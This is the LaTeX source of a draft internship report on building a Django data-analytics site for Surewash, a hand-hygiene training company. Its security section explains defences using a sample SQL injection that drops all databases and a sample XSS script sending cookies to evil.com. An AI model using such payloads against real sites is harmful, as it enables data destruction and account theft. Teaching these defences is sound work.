\documentclass[11pt]{article}
\renewcommand{\familydefault}{\sfdefault}
\renewcommand{\baselinestretch}{1.5} 
\usepackage[margin=20mm, bindingoffset=15mm]{geometry}
\usepackage[hidelinks]{hyperref}
\usepackage[style=authoryear]{biblatex}
\usepackage{url}
\addbibresource{references.bib}
% \bibliographystyle{harvard}
\usepackage[utf8]{inputenc}
\usepackage{newunicodechar}
\usepackage{graphicx}
\usepackage{tikz}
\usetikzlibrary{shapes.geometric, arrows}
\usepackage[T1]{fontenc}
\usepackage{listings}
\usepackage{color}
\usepackage[toc,page]{appendix}
\usepackage{pgfplots}
\usepackage{mathtools}
\usepackage{amsfonts}
\usepackage{tocloft}
\usepackage[font=small,labelfont=bf]{caption}
\usepackage{helvet}
\pgfplotsset{%
    ,compat=1.12
    ,every axis x label/.style={at={(current axis.right of origin)},anchor=north west}
    ,every axis y label/.style={at={(current axis.above origin)},anchor=north east}
    }

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%   Code and markup styles                                              %
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

\definecolor{darkgrey}{rgb}{0.117,0.117,0.117}
\definecolor{lightgrey}{rgb}{0.828,0.828,0.828}

% \pagecolor{darkgrey}
% \color{lightgrey}

\definecolor{mygray}{rgb}{0.4,0.4,0.4}
\definecolor{mygreen}{rgb}{0,0.8,0.6}
\definecolor{myorange}{rgb}{1.0,0.4,0}

\definecolor{mGreen}{rgb}{0,0.6,0}
\definecolor{mGray}{rgb}{0.5,0.5,0.5}
\definecolor{mPurple}{rgb}{0.58,0,0.82}
\definecolor{backgroundColour}{rgb}{0.95,0.95,0.95}

\lstdefinestyle{CStyle}{
    backgroundcolor=\color{backgroundColour},   
    commentstyle=\color{mGreen},
    keywordstyle=\color{magenta},
    numberstyle=\tiny\color{mGray},
    stringstyle=\color{mPurple},
    basicstyle=\ttfamily,
    breakatwhitespace=false,         
    breaklines=true,                 
    captionpos=b,                    
    keepspaces=true,                 
    numbers=left,                    
    numbersep=5pt,                  
    showspaces=false,                
    showstringspaces=false,
    showtabs=false,                  
    tabsize=2,
    language=C
}

\lstdefinestyle{PythonStyle}{
    backgroundcolor=\color{backgroundColour},   
    commentstyle=\color{mGreen},
    keywordstyle=\color{magenta},
    numberstyle=\tiny\color{mGray},
    stringstyle=\color{mPurple},
    basicstyle=\ttfamily,
    breakatwhitespace=false,         
    breaklines=true,                 
    captionpos=b,                    
    keepspaces=true,                 
    numbers=left,                    
    numbersep=5pt,                  
    showspaces=false,                
    showstringspaces=false,
    showtabs=false,                  
    tabsize=2,
    language=Python
}

\lstdefinestyle{JSStyle}{
    backgroundcolor=\color{backgroundColour},   
    commentstyle=\color{mGreen},
    keywordstyle=\color{magenta},
    keywords={break, case, catch, continue, debugger, default, delete, do, else, false, finally, for, function, if, in, instanceof, new, null, return, switch, this, throw, true, try, typeof, var, void, while, with},
    numberstyle=\tiny\color{mGray},
    stringstyle=\color{mPurple},
    basicstyle=\ttfamily,
    breakatwhitespace=false,         
    breaklines=true,                 
    captionpos=b,                    
    keepspaces=true,                 
    numbers=left,                    
    numbersep=5pt,                  
    showspaces=false,                
    showstringspaces=false,
    showtabs=false,                  
    tabsize=2,
    % language=C
}

\lstdefinestyle{CSharpStyle}{
    backgroundcolor=\color{backgroundColour},   
    commentstyle=\color{mGreen},
    keywordstyle=\color{magenta},
    numberstyle=\tiny\color{mGray},
    stringstyle=\color{mPurple},
    basicstyle=\ttfamily,
    breakatwhitespace=false,         
    breaklines=true,                 
    captionpos=b,                    
    keepspaces=true,                 
    numbers=left,                    
    numbersep=5pt,                  
    showspaces=false,                
    showstringspaces=false,
    showtabs=false,                  
    tabsize=2,
    language=C
}

\lstdefinestyle{SQLStyle}{
    backgroundcolor=\color{backgroundColour},   
    commentstyle=\color{mGreen},
    keywordstyle=\color{magenta},
    numberstyle=\tiny\color{mGray},
    stringstyle=\color{mPurple},
    basicstyle=\ttfamily,
    breakatwhitespace=false,         
    breaklines=true,                 
    captionpos=b,                    
    keepspaces=true,                 
    numbers=left,                    
    numbersep=5pt,                  
    showspaces=false,                
    showstringspaces=false,
    showtabs=false,                  
    tabsize=2,
    language=SQL
}

\lstdefinestyle{HTMLStyle}{
    backgroundcolor=\color{backgroundColour},   
    commentstyle=\color{mGreen},
    keywordstyle=\color{magenta},
    numberstyle=\tiny\color{mGray},
    stringstyle=\color{mPurple},
    basicstyle=\ttfamily,
    breakatwhitespace=false,         
    breaklines=true,                 
    captionpos=b,                    
    keepspaces=true,                 
    numbers=left,                    
    numbersep=5pt,                  
    showspaces=false,                
    showstringspaces=false,
    showtabs=false,                  
    tabsize=2,
    language=HTML
}

\tikzstyle{startstop} = [rectangle, rounded corners, minimum width=3cm, minimum height=1cm,text centered, draw=black, fill=green!30, text width=4cm]
\tikzstyle{posebox} = [rectangle, rounded corners, minimum width=1cm, minimum height=1cm,text centered, draw=black, text width=1cm]
% \tikzstyle{io} = [trapezium, trapezium left angle=70, trapezium right angle=110, minimum width=3cm, minimum height=1cm, text centered, draw=black, fill=blue!30]
\tikzstyle{process} = [rectangle, minimum width=3cm, minimum height=1cm, text centered, draw=black, fill=blue!30, text width=4cm]
\tikzstyle{decision} = [diamond, minimum width=3cm, minimum height=1cm, text centered, draw=black, fill=red!30]
\tikzstyle{arrow} = [thick,->,>=stealth]

\newcommand{\inlinecode}[2]{\colorbox{backgroundColour}{\lstinline[style=#1]$#2$}}


\usepackage{titlesec}
% \titleformat*{\paragraph}{\normalsize\scshape}
\usetikzlibrary{er,positioning}
% \bibliographystyle{apacite}


\begin{document}
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%   Cover page                                                          %
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
\begin{center}
    \title{Internship at Surewash (Glanta DAC)}
    \author{Daniel Desmond Dennis}

    \begin{figure}
        
\includegraphics[width=\linewidth]{../img/tcd_logo.jpg}
    \end{figure}
    \vspace*{1.0in}
    {\Huge \bfseries
    Internship at Surewash (Glanta DAC)\\
    }
    \vspace*{1.0in}
    {
    Daniel Desmond Dennis\\
    Master in Computer Engineering\\
    Internship Technical Report\\
    Supervisor: Dr. Vasileios Koutavas\\
    \today \space {\bfseries DRAFT}
    }

    \setcounter{section}{0}

    \vfill

    {\Large
    School of Computer Science and Statistics\\

    O’Reilly Institute, Trinity College, Dublin 2, Ireland
    }

\end{center}

\newpage

\begin{center}
{\bfseries \large DECLARATION}\\
\end{center}
\vspace*{0.5in}
I hereby declare that this project is entirely my own work and that it has not been submitted as an exercise for a degree at this or any other university.
\vspace*{0.5in}

\newcommand*\wildcard[2][5cm]{\vspace*{2cm}\parbox{#1}{\hrulefill\par#2}}

\begingroup
  \centering
  \wildcard{Name}
  \hspace{1cm}
  \wildcard{Date}
  \par
\endgroup


%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
% Contents                                                              %
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
\newpage
\setcounter{tocdepth}{1}
\renewcommand{\cftsecfont}{\sffamily}
\tableofcontents
\newpage

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
% Introduction                                                          %
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
\part{Introduction}
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
% Introduction                                                          %
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
\section{The Company}
Surewash is a small company (less than ten employees) based in the Trinity Technology and Enterprise Center in Grand Canal Dock, Dublin, Ireland. Surewash's core focus is on designing, manufacturing, and selling educational products for hand hygiene. At the core of all of their products, a camera system is used to detect if someone is washing their hands correctly or not. Handn hygiene training is acheived by a user using this machine repeatedly until they are successfully proficient at washing their hands. This is acheived by making it progressively harder to complete a session with the machine, so on first use, the machine will provide detailed instructions on the process, and allow a lot of time to complete each part of the process, but as time goes on, these aids are removed and if a user doesn't complete a part of the process in a certain time, they will have to redo the process.

Surewash currently has three products. The Surewash ELITE, their first product, is a freestanding unit on wheels, designed to sit in a hospital ward. The Surewash GO is a smaller, and cheaper version of the ELITE. It is portable and unlike the ELITE, can be used without being connected to mains power, as long as there is sufficient charge in the battery. Its core functionality is the same otherwise, albeit in a smaller formfactor. Surewash POCKET is differant to the other two products, it is a mobile app that uses a phone's front-facing camera, although it uses the same concept of levels to teach hand hygiene. The key differance with POCKET is that it cannot be used for certification of hand hygiene training since a mobile phone's camera cannot provide the same quality of data that the cameras that come with ELITE and GO can provide.

Surewash also has an online web service called Sureash.NET. Each Surewash product can upload its user data to this website and it will then display overall trends in usage.

\section{My internship}
I was employed as an intern at Surewash, working normal business hours from January to July 2019. There is another intern, Gaurav Gupta.
    \subsection{Internship Goals}
    At the beginning of my internship, I set myself the following goals
        \paragraph{Improve my skills in programme design}
        Targets:
        \begin{enumerate}
            \item My company uses Python for server-side tasks.
            \item I will hone my skills in turning programme ideas into working, and understandable Python code that can be deployed on Surewash servers.
            \item I will improve my understanding of how Python works, and what is best practice.
            \item I will submit my code to my supervisor for evaluation and feedback.
        \end{enumerate}
    
        \paragraph{Enhance my time management skills}
        Targets:
        \begin{enumerate}
            \item My company uses Scrum to allocate tasks and resources, my supervisor will introduce me and help me fit into the company’s workflow.
            \item I will participate and contribute to company scrum meetings every two weeks.
            \item I will improve my ability to estimate what I can get done in a single sprint.
        \end{enumerate}

        \paragraph{Improve my presentation and public speaking skills}
        Targets:
        \begin{enumerate}
            \item I will make presentations of my work for both technical and non-technical audiences.
            \item I will receive feedback on said presentations, and use it to improve how and what I present to them.
            \item At the conclusion of my internship with Surewash, I will be confident at preparing and presenting presentations.
        \end{enumerate}
\newpage
\setcounter{section}{0}

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%   Data Analytics Suite                                                %
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
\part{Data Analytics Suite}
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%   Data Analytics Suite                                                %
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
\section{Motivation and background}
A Surewash device aims to teach people how to wash their hands according to the World Health Organisation (\cite{who_handhygiene}). This method divides washing one's hands into six distinct stages (the NHS in the UK and HSE in Ireland includes a seventh), these stages will hereafter be referred to as poses.

At the time of writing, Surewash has existed for eight years, and they have seen steady growth in that time, with customers around the world. It is clear that the idea of using computer vision to train people how to wash their hands has been a success from a commercial context. Success, however, can be measured in different ways. If one were to assert the following, "Surewash is a successful company, therefore their products are effective", this would be committing the formal fallacy of Affirming the consequent. In simpler terms, just because people are buying Surewash products does not necessarily mean that said products do what they claim to, or that people use them in the first place. There are two questions that must be asked here. Firstly, is the general idea of using a camera and computer system to train people how to wash their hands effective. Secondly, is Surewash's implementation of this idea effective? At a first glance, it would appear that these two issues are mutually exclusive, i.e., if it's found that the general idea this method works, then Surewash's products must work. I would argue that this is not the case, to argue by using a hypothetical situation, people who use a Surewash machine for hand hygiene training may well learn how to wash their hands, but the machine itself may be difficult to use and require technical knowhow, so the general population may not gain the benefits of this machine because the barrier of entry with regards to using the machine is too high.

Small scale studies have been performed on the effectiveness of using a computer vision system to evaluate hand hygiene, such as \cite{ghosh2011impact} and \cite{ghosh2013pilot}, but the problem with these studies is that they used relatively small sample sizes. These studies also do not indicate if Surewash's implementation is successful. On the other hand, Surewash has a database covering many hospitals, over many years, covering different countries. Crucially, since Surewash is the only company that offers a product like this (since the process has a patent (\cite{handwashpatentglanta})), this is the first time that one can see how effective Surewash's products are, given the existence of several years of data. The aim therefore of this project is to evaluate how effective Surewash is as a service, distinct from evaluating how effective the concept of using a computer vision system is to train people how to wash their hands.

The aim of this application has now been defined: to evaluate how effective Surewash is as a service. This question cannot be summarised in a holistic answer however. For example, if, say there have been ten thousands uses over a period of a year in a particular hospital, that gives no indication of the actual engagement of a product. On the other hand, if people have a ``good engagement'' of Surewash, it doesn't take into account the amount of people who used Surewash.

Up to this point, from talking to people in Surewash, they have a certain idea of how people interact with the devices, mainly based on Customer feedback, and this has helped inform me of what answers I should seek from the data.

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
% Underlying concepts                                                   %
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

\section{Underlying concepts}
    \subsection{Definitions}
        \subsubsection{Relational Database}
        A database is an organised collection of data that can be electronically accessed. A Relational Database is a database that stores data in the form of a relational model, as proposed by \cite{Codd}.
    \subsection{Programming languages}
        \subsubsection{Python}
        Python is an interpreted, high-level, general-purpose language. It is ubiquitous in areas such as data science. It is known for being easy to learn, having an extensive standard library, as well as a strong community for support and third party libraries.
        \subsubsection{SQL}
        SQL, short for Structured Query Language is a domain-specific programming language designed specifically for querying and manipulating databases. It comes in many dialects, this project uses the mySQL variant.
        \subsubsection{HTML} 
        HTML, short for Hypertext Markup language is not a programming language, but a markup language. It is a core web technology used to describe the structure of webpage. It is based on SGML.
        \subsubsection{CSS}
        CSS, short for Cascading Style Sheets is a style language used to describe the presentation of a HTML file.
        \subsubsection{JavaScript}
        Frequently shortened to JS, JavaScript is an interpreted, general-purpose programming language that is supported by all modern web browsers.
    \subsection{Programming environments}
        \subsubsection{Visual Studio Code}
        Visual Studio Code is an open source, free code editor developed by Microsoft. It is not an IDE, but it provides many features of one, such as code highlighting, code completion, and snippets.
        \subsubsection{Vim}
        Vim, short for Vi Improved, based on Vi, is a visual code editor (used in a command line interface). It can do everything that Visual Studio Code can do, but it has no support for a mouse, therefore all interaction is with a keyboard. The learning curve is substantial in comparison to a GUI-based text editor, but it is necessary to use Vim for this project since the server that this project runs on does not have a GUI.

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
% Sources                                                               %
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

\section{Sources}
    \subsection{The devices} Surewash has three core products, the {\slshape ELITE}, {\slshape GO}, and {\slshape Pocket}. The {\slshape ELITE} and {\slshape GO} are equivalent devices from a data analytics perspective. They both run Windows, they both use the same camera, and run on the same computer vision algorithm. The differences mainly lie with the form-factor of the hardware. In contrast, the idea of {\slshape Pocket} is quite different. Whereas Surewash designs both hardware and software of the {\slshape ELITE} and {\slshape GO}, {\slshape Pocket} runs as a mobile app on iOS and Android. This is hugely consequential, since it is only feasible to test the software on a small amount of devices, and so data is much less predictable. It also uses the camera that comes with the phone, which means that the algorithm only has access to an RGB feed, in contrast, the {\slshape ELITE} and {\slshape GO} also have access to a depth feed (a matrix of pixels showing depth), which can give more accurate results. This also presents opportunities for analysing data between different devices, and seeing how Surewash is used on different devices. There has already been anecdotal evidence from customers that the performance of {\slshape Pocket} is variable between devices.
    \subsection{The database}
    Surewash has a central server, which hosts a relational database (mySQL). Within this database, there are five key tables that are of interest for analysis: {\slshape User Records}, {\slshape User Profiles}, {\slshape Roles}, and {\slshape Customer}. For Surewash Pocket, it has a separate database, the only table of interest is {\slshape Hand Hygiene Session}. The following is a description of what each table contains:
        \subsubsection{Table: User Records} Every time someone washes their hands with a Surewash device (hereafter a {\slshape session}), a new tuple is created in this table, which among other things, describes the following.
            \paragraph{MillisecondsP1\_time - MillisecondsP7\_time} How long was spent on a particular pose (one of the seven possible stages of washing hands), in milliseconds.
            \paragraph{P1\_passed - P7\_passed} A boolean value saying whether a particular pose was passed or not.
            \paragraph{P1\_difficult - P7\_difficult} A boolean value saying whether the user had difficulty with a particular pose.
            \paragraph{P1\_failed - P7\_failed} A boolean value saying whether a particular pose was failed or not.
            \paragraph{DateTimeUTCSessionStart} What date and time (UTC) the session was started at.
            \paragraph{CustomerID} is a foreign key relating this table to {\slshape Customer}.
            \paragraph{UserID} is a foreign key relating this table to User {\slshape User Profiles}.
            \paragraph{DifficultyLevel} The difficulty level chosen by a user.
        \subsubsection{Table: User Profiles} Each staff member in a hospital is associated with a tuple in this table. Each user profile can have many user records associated with it. The columns of interest are as follows:
            \paragraph{id} Can be used to select all {\slshape sessions} from {\slshape User Profiles} that this person has completed.
            \paragraph{RoleID} Each staff member will have a type of role (such as 'Nurse', 'Doctor', etc.), this is a foreign key related to {\slshape RoleID} in {\slshape Roles}.
        \subsubsection{Table: Roles}
            \paragraph{RoleID} Mentioned above, each staff member will have a type of role (such as 'Nurse', 'Doctor', etc.).
        \subsubsection{Table: Customer} This stores headline information about a particular hospital.
            \paragraph{id} The primary key, this can be used to select all staff members, or user records related to this hospital.
            \paragraph{country} This shows the country that the hospital is located in, useful for dividing results by different countries.
            \paragraph{site} The name of the hospital.
        \subsubsection{Table: Hand Hygiene Session} This is similar to the User Records table, albeit with fewer columns.
            \paragraph{deviceType} The model of the device, which generally has the syntax of the manufacturer, followed by the model. This can therefore be used to select results based on a particular manufacturer, or individual models.
            \paragraph{startUTCTime} The time that a session was started, useful for seeing how the app has been used over time.
            \paragraph{pose001Time - pose006Time} How long was spent on a particular pose, in milliseconds.
            \paragraph{pose001Passed - pose006Passed} A boolean value saying whether a particular pose was passed or not.
            \paragraph{softwareVersion} The version of Surewash Pocket being used.
            \paragraph{difficultyLevel} The level of difficulty chosen, ranging from {\slshape Level 0} to {\slshape Level 5}.
        \subsubsection{Challenges with the database} There are a few peculiarities and workarounds in this database which require special attention.
            \paragraph{Pose 5 and Pose 6 switched} A bug existed early in the development of the Surewash software, where the 5th and 6th pose of the WHO method were in the wrong order. This was also reflected in database. The workaround that was chosen was to add a boolean column called {\slshape Pose5and6Switched}, so this needs to be checked. If it is false, then all values associated with the two respective poses need to be swapped.
            \paragraph{Pose 7} Although the WHO does not specify this, some hospitals require a seventh pose in their hand hygiene regimen where the wrists are also washed. A boolean value called {\slshape Pose7Enabled} needs to be evaluated therefore to see if values relevant to Pose 7 need to be evaluated.
            \paragraph{Pose 4} Depending on the hospital, some will specify that one needs to complete Pose 4 twice (by flipping hands), or once. There is a boolean value called {\slshape Pose4TwoHanded}, which if true means that all time values related to Pose 4 will be twice as long, and therefore if one is doing an analysis of all hospitals, the value for Pose 4 will either need to be doubles or halved for the relevant cases.
            \paragraph{Difficulty level} The Surewash software has difficulty levels ranging from zero to five, all records before a certain version did not have a concept of levels, so this will be {\slshape Level 0} for all of those records. There are also occasions were a Surewash product was used in a clinical trial, the difficulty level will have a different value. A different algorithm was used, therefore all tuples fitting this criterion should be ignored.
            \paragraph{Location data on {\slshape Pocket}} A notable omission from the {\slshape Pocket} database is something that can indicate where in the world a particular session was performed, which means that different countries and regions cannot be compared, which is a shortcoming in my opinion. This omission was deliberate, since an app has to formally request to the user to be able to use location data. In the age of increased scrutiny on privacy, and since it's not necessary for the functionality of the app to collect this data, a decision was made to not collect this data.

            For the future, there is potentially a workaround to this. All session information from {\slshape Pocket} is automatically submitted to a Surewash server, therefore within the server, the IP address of the phone could be recorded and the location could be obtained from the IP address. This would not be entirely accurate, but it would be good enough for the purposes of this exercise.
        % \subsubsection{Relational mappings}
        % The aforementioned tables have the following relations:
        % % \begin{tikzpicture}[auto,node distance=1.5cm]
        % %     % Create an entity with ID node1, label "Fancy Node 1".
        % %     % Default for children (ie. attributes) is to be a tree "growing up"
        % %     % and having a distance of 3cm.
        % %     %
        % %     % 2 of these attributes do so, the 3rd's positioning is overridden.
        % %     \node[entity] (node1) {Fancy Node 1}
        % %         [grow=up,sibling distance=3cm]
        % %         child {node[attribute] {Attribute 1}}
        % %         child {node[attribute] {Attribute 2}}
        % %         child[grow=left,level distance=3cm] {node[attribute] {Attribute 3}};
        % %     % Now place a relation (ID=rel1)
        % %     \node[relationship] (rel1) [below right = of node1] {Relation 1};
        % %     % Now the 2nd entity (ID=rel2)
        % %     \node[entity] (node2) [above right = of rel1]	{Fancy Node 2};
        % %     % Draw an edge between rel1 and node1; rel1 and node2
        % %     \path (rel1) edge node {1-\(m\)} (node1)
        % %         edge	 node {\(n\)-\(m\)}	(node2);
        % % \end{tikzpicture}
        % \begin{center}
        % \begin{tikzpicture}[auto,node distance=1.5cm]
        %     \node[entity] (node1) {User Records} [sibling distance=3cm];
        %     \node[relationship] (rel1) [ right = of node1] {N - 1};
        %     \node[entity] (node2) [right = of rel1]	{User Profiles};
        %     \path (rel1) edge node {} (node1)
        %         edge	 node {}	(node2);
        % \end{tikzpicture}

        % \begin{tikzpicture}[auto,node distance=1.5cm]
        %     \node[entity] (node1) {User Profiles} [sibling distance=3cm];
        %     \node[relationship] (rel1) [ right = of node1] {N - 1};
        %     \node[entity] (node2) [right = of rel1]	{Customer};
        %     \path (rel1) edge node {} (node1)
        %         edge	 node {}	(node2);
        % \end{tikzpicture}
        % \end{center}

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
% The application                                                       %
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

\section{The application}
The brief stated that this application was to be built for the web, so that it can be accessed by a web browser from the Internet. This implies that security should be at the forefront of the application, since it is accessible from the public Internet. The other implied constraint of this project is that it is built quickly. With these constraints in mind, the best approach is to use Django, which is a Python framework for building web applications. The added bonus of this is that the {\slshape SureWash.NET} product (a web application data analytics package for customers) was built using Django, so there is knowhow within the company as to best practice using this framework.
    \subsection{Security considerations}
    The core aim of this application is get real-time insights into Company data. This therefore means that the database needs to be accessed. The following known security practices and web vulnerabilities need to be considered.
        \paragraph{Database access} This website need only access a subset of the database, and it does not need to perform any write operations, therefore a new user for the database was created with only the required permissions granted.
        \paragraph{SQL injection attack}
        SQL injection attacks are a common vulnerability in web applications (\cite{halfond2006classification}). Since database access is core to the functionality of the website, care needs to be taken. The key avenues of attack that need to be considered for this application are as follows: {\slshape Injection through user input} where SQL code is added to a HTTP POST request and inadvertently executed, {\slshape Injection through cookies} similar to {\slshape Injection through user input}, and {\slshape Second-order injection} where SQL code is inadvertently stored somewhere in a Database tuple and executed later.

        Django prevents these forms of attacks mentioned by using the concept of {\slshape Prepared Statements}, or {\slshape Query Parameterisation}, which is an accepted way to prevent such attacks (\cite{amirtahmasebi2009survey}). In a `raw' SQL query, no distinction is made between SQL keywords, and strings. So in a statement such as this:
        \begin{lstlisting}[style=SQLStyle]
SELECT * FROM UserRecords2 WHERE WebCustomerID = 23\end{lstlisting}
        no distinction is made between keywords such as SELECT and FROM, and a string, 23. If therefore, a form on the website allowed a user to enter WebCustomerID, they can select all User Records related to that WebCustomerID, but they could also type something like {\slshape `\' \space ; DROP ALL DATABASES;--'}, then this would be interpreted by the database as follows:

        \begin{lstlisting}[style=SQLStyle]
SELECT * FROM UserRecords2 WHERE WebCustomerID = ''; 
DROP ALL DATABASES;
--'\end{lstlisting}

        It would see two separate commands, first find all records where WebCustomerID is an empty string, then erase everything. Clearly, this is a problem. Django's solution is to escape any string values in a syntax similar to the following:

        \begin{lstlisting}[style=SQLStyle]
`SELECT * FROM UserRecords2 WHERE WebCustomerID = \%s', id\end{lstlisting}

        The id value is therefore treated as a string, and the database will know not to execute the statement.

        \paragraph{Cross Site Scripting (XSS)}
        This works by a user injecting code into the website that is later executed inadvertently (\cite{di2004identifying}). As an example, in a newspaper website, a user could post comments, but within the comment, they might put something like the following in:
        \begin{lstlisting}[style=HTMLStyle]
<script>
    location.URL=`http://www.evil.com/' + document.cookie
</script>\end{lstlisting}
        Instead of the browser treating the above text as HTML markup, it would execute it as JavaScript code, sending the user's cookie to a third party, and from there, the hacker could access their account on that website.

        Django prevents this form of attack by searching for specific keywords, such as the <script> tag and sanitises the input by removing dangerous characters and sequences.

        \paragraph{Cross Site Request Forgery (CSRF)}
        A lesser discussed web vulnerability where an unwanted action can be performed by a user by way of a malicious third party site by spoofing a HTTP POST request (\cite{zeller2008cross}). Django prevents this by requiring a pseudo-random value to be submitted with a form submission.

        It should be noted that the potential consequences of this web portal being subjected to a CSRF attack are not serious with this website, since it only acts as a read-only system. That being said, it is bad practice and unethical to knowingly leave an application vulnerable to such a vulnerability regardless.

        \paragraph{Brute Force}
        A simple but effective exploit, this simply involves trying to log in to the website with any amount of username/password combinations until one succeeds. Django does not come with any way of detecting or preventing such an attack. A common way to prevent this exploit in Django is to use a Django extension called {\slshape Django-Axes}. This extension provides the ability to blacklist IP addresses, as well as lock accounts. It also logs all login attempts, as well as whether they were successful (\cite{djangoaxes}). This application uses a policy where a user and ip address are locked out for twenty-four hours if a login attempt fails more than ten times. The particular semantics of this policy are arbitrary, however they can be changed easily if they are too strict, or not strict enough.

        \paragraph{Denial Of Service}
        This is where the server is burdened by requests from one client. This application is unlikely to be served with such an attack.

        \paragraph{Firewall}
        The server is available on the internet, and its intended use is for web services only, therefore all ports except 80 (for HTTP), and 443 (for SSL) are blocked from public access. Port 22, for SSH (through which the server is configured)can be access only through Surewash's IP.
    
    \subsection{Hosting and server configuration}
    A decision needs to be made as to where the application is being hosted. Surewash has a static IP address, so it could be hosted by a computer in-house, however, Amazon Web Services (AWS) is already used to host its {\slshape SureWash.NET} service, as well as the API server for {\slshape Pocket}. Amazon Web Services provides the ability to have a remote server, either in a virtual instance (on a hypervisor), or by having a dedicated physical server

    Ubuntu is the chosen operating system for the web server to run on, since it is widely used, and there is plenty of free help available. It is running on {\slshape x86-64} architecture since this is common practice. Django does not come with a production-safe HTTP server, so Apache HTTP Server is used for this purpose.

    \subsection{Development Workflow and testing}
    Django has an inbuilt development server which can be used to test the web application locally on the computer it is being developed from. If the development server is started on the computer the application is being developed from, the website can be access by opening a web browser on the same computer and typing in {\slshape http://localhost:PORT}, where {\slshape PORT} is the port chosen to host the development server on, which is 8000 by default.

    If the website works on the local server, the next step in testing is to try it on the AWS server. The code needs to be transferred over, there are many ways of achieving this, such as FTP, but GIT was the chosen method. Surewash has a Github subscription, so the codebase can be hosted there privately. The code can then be pushed to the server by logging into it via SSH and performing the relevant GIT commands there.

    An important consideration when using this kind of workflow is database access, which is independent of this entire project. It would be unnecessary to access the live database while developing since it would put an unnecessary burden on the server when customers are also trying to access it. The solution to this is to make a snapshot of the server and keep a local copy on the computer that is being used to develop the application. This also means though that the server code and local development code will have to be different to reflect the different server addresses and username/passwords for the database. The solution used in this project is to have a file called {\slshape local\_settings.py} that contains the relevant database details, and add this file to .gitignore. This has the added benefit of not storing database passwords on the Git repository.

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
% Algorithms                                                            %
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
% \section{Algorithms}

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
% Learning outcomes                                                     %
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
\section{Conclusion}
    \subsection{Learning Outcomes}
        \subsubsection{Programme design}
            \subsubsection{Python}
            While I had used Python in college, it was mostly working with existing code, where only minor changes had to be made. This project was the first time where I had to write large amounts of code in Python, which meant that I had to gain a deeper understanding of how programming in it works.
            \subsubsection{SQL}
            This was the first time where I had to interact with an existing database, and come up with optimised SQL queries. While it's trivial to get data from a database, I had to ensure that my queries were optimised since this is a server accessed by customers, and if my queries took long periods of time to run, I could potentially affect the experience of Surewash customers. I also learned how to use database security, such as granting views and privileges.
        \subsubsection{Presentation}
            \paragraph{Oral presentation}
            I improved my skills in oral presentation by giving a non-technical presentation of the results given by the data analytics suite, as well as a demonstration of the user interface.
            \paragraph{Documentation}
            I improved my skills in documentation by writing a manual describing the usage of the programme, as well as another manual which describes documents how the code works.
        \subsection{Other}
            \subsubsection{Amazon Web Services}
            I learned the very basics of AWS, such as how to setup a new server, and how to interact with this server using SSH and FTP. I also learned how to secure the server using a firewall.
            \subsubsection{Vim}
            I learned the basics of using Vim. Knowing how to use Vim is important since many computers do not have a graphical user interface, and while easier CLI text editors such as Nano exist, they are not as powerful or full-featured as Vim.
            \subsection{Web security}
            I learned about XSS attacks, CSRF attacks, and SQL injection attacks, what they are, how they work, and how to prevent them.
    % \subsection{Reflection}
\newpage
\setcounter{section}{0}

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
